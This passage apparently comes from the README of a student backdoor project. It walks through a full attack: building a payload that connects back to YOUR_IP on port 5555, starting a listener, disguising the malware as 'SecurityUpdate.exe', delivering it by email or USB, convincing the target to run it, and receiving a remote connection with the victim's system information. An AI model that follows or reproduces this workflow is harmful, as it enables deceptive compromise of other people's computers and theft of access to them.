 **👉 Recommendation: Use executables for 99% of cases!**

---

## 🎬 Complete Attack Workflow

### Step 1: Build Your Malware

Choose your method:

**Option A - Executable (Recommended):**

```bash
cd exploitation
python3 build_executable.py YOUR_IP 5555 windows
```

**Option B - Python Script:**

```bash
cd exploitation
python3 build_payload.py YOUR_IP 5555
```

### Step 2: Start Your Server

In a new terminal:

```bash
cd /Users/kaweewatnoisuwan/Desktop/DES484_Backdoor
python3 server.py
```

You should see:

```
[+] Listening on 0.0.0.0:5555
[*] Waiting for incoming connections...
```

### Step 3: Deploy to Target

**For Executables:**

- Send `SecurityUpdate.exe` (Windows) via email/USB
- Target double-clicks → Runs automatically!

**For Python Scripts:**

- Send `malware_payload.py`
- Convince target to run: `python3 malware_payload.py`

### Step 4: Wait for Connection

When target executes, you'll see:

```
[+] Connection established from 192.168.1.105:54321

=== System Information ===
Hostname: target-laptop
System: Windows
...
```
